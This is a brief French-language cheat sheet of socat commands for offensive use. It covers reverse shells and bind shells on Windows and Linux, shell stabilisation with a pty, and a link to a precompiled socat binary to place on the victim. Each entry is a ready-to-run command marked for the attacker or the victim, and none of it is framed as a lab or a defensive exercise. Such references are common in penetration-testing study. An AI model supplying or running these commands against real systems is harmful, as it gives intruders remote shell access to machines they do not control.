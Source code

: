 # Reverse shells

[Attaquant]
```
socat TCP-L:<port> -
```

Windows
```
socat TCP:<IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Linux

```
socat TCP:<IP>:<LOCAL-PORT> EXEC:"bash -li"
```

# Bind Shells

Windows
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

[Attaquant]
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


### Stabiliser des shells avec socat

[Attaquant] target -> Linux
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

[Victime] <a href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true">Socat précompilé</a>
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
